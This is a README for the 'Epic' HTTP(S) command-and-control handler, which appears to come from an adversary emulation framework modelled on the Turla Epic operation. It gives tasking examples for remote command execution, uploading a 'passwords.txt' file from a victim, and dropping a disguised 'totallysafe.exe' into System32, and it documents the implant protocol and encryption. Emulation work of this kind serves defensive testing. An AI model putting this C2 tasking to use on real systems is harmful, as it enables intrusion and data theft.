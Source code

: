 # Epic HTTP(S) Handler

The Epic HTTP(S) C2 handler is the server-side counterpart for the Epic implant
and is specifically designed to interact with it over HTTP or HTTPS.

## Usage

### Configuration

To enable and configure the Epic HTTP(S) handler within the control server, edit
the `config/handler_config.yml` from the main C2 server repo. Adjust the `epic`
entry as needed.

HTTP example:
```yaml
epic:
    host: 10.0.2.8
    port: 8080
    use_https: false
    enabled: true
```

HTTPS example:
```yaml
epic:
    host: 10.0.2.8
    port: 8443
    cert_file: ""
    key_file: ""
    use_https: true
    enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in
starting up the Epic handler.

### Tasking

To submit a task for the C2 server, use the following command format:

```bash
./evalsC2client.py --set-task [UUID] 'key | value | [optional args]'
```
The `key | value` pair is converted into `key = value` format and placed into
the configuration file portion of the server's response.

The optional args are used for specific commands, as detailed below.

The keys tell the implant what to do:
- `exe` - tells the implant to execute the command contained in the value
  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | whoami'
  ```
- `result` - tells the implant to upload the file that is located at the value
  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'result | C:\users\bob\passwords.txt'
  ```
- `name` - tells the implant receive a file that the handler is sending to it, with
  the value being the path that the file contents should be written to on the implant
  and an option arg telling the handler the file that it should send
  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'name | C:\Windows\System32\totallysafe.exe | hello_world.elf'
  ```
- `del_task` - tells the implant to delete the file that is located at the value
  ```
  ./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'del_task | C:\Users\bob\passwords.txt'
  ```

Note: The template for the EPIC C2 handler HTML response has been taken from here: https://securelist.com/the-epic-turla-operation/65545/

## Components

The handler consists of an HTTP(S) web server that listens on a specified
address/port and serves the following URL endpoints:

- `POST /`, where the server expects a message from the implant that sends
  data to the server and allows the server to respond with tasking.

  The implant sends the server a POST request with an encoded, encrypted,
  and compressed JSON in the body in the following format:

  :exclamation: NOTE: the first POST request from the implant is **not**
  encrypted, but is encoded and compressed.

  ```json
  {"UUID":"<UUID>", "type":"<command type>", "data":"<data>"}
  ```
  - The `UUID` field is empty if this is the first time the implant makes
    contact with the server; otherwise, it contains the UUID assigned to it by
    the server. To allow for reproducibility, the server has two hard coded
    UUIDs that it gives out to implants. The first UUID that is given out is
    `218780a0-870e-480e-b2c5dc`, and the second is `51515228-8a7b-4226-e6e3f4`.
    If a third implant is registered, the first implant will automatically be
    deregistered, and its UUID will be given to the third implant. When a
    fourth implant is registered, the second implant is deregistered, and its
    UUID is given to the fourth implant, and so on.
  - The `type` field contains the command type of the command that was executed
    to generate the data in the `data` field.
    - `command` - the `data` field contains the results of a command that was
      run.
    - `upload` - the `data` field contains the contents of the file to be
      uploaded.
    - `download` - the `data` field contains either a success or error message
      that indicates whether the implant was able to download the file.
    - `delete` - the `data` field contains either a success or error message
      that indicates whether the implant was able to delete the file.
  - The `data` field contains base64 encoded results from the command ran for
    the previous communication cycle.

  The server will respond in the following binary format:
  ```
  |-----------------------------------------------------------|
  |      Command Id (unsigned int, 4 bytes, little endian)    |
  |-----------------------------------------------------------|
  |     Payload Size (unsigned int, 4 bytes, little endian)   | 
  |-----------------------------------------------------------|
  |                         Payload                           |
  |-----------------------------------------------------------|
  | Configuration Size (unsigned int, 4 bytes, little endian) |
  |-----------------------------------------------------------|
  |                    Configuration File                     |
  |-----------------------------------------------------------|
  ```
  - The command ID starts at 0 and increments for each command sent to the
    implant.
  - The payload is any executable that the implant should execute. It is
    sent as a base64-encoded string.
  - The configuration file is an ini file that contains any configuration
    information, including sending the implant's UUID and commands to
    execute.

### Encryption

EPIC tasking is AES-256 encrypted with a new session key and IV for every
communication sent. The IV is prepended to the AES encrypted data. The AES
session key is base64 encoded and RSA encrypted then prepended to the IV and
AES encrypted data.

Altogether, the data transformations in pseudocode would look similar to the
following:

```
Base64(RSA_encrypt(Base64(AES_key)) + AES_IV + AES_encrypt(Bzip2(data)))
```

The C2 server and the implant each have an RSA key pair. The keys were
generated using the following commands:

```
# generate the private key
openssl genrsa -out private.pem 2048

# generate the public key
openssl rsa -in private.pem -outform PEM -pubout -out public.pem

# reformat to PKCS1 and DER encoding for use with CryptoPP
openssl rsa -in private.pem -traditional-out privatepkcs1.key -outform der
openssl rsa -pubin -in public.pem -RSAPublicKey_out -out publicpkcs1.key -outform der

# base64 encode the keys for use in C2 server and EPIC payload
cat privatepkcs1.key | base64
cat publicpkcs1.key | base64
```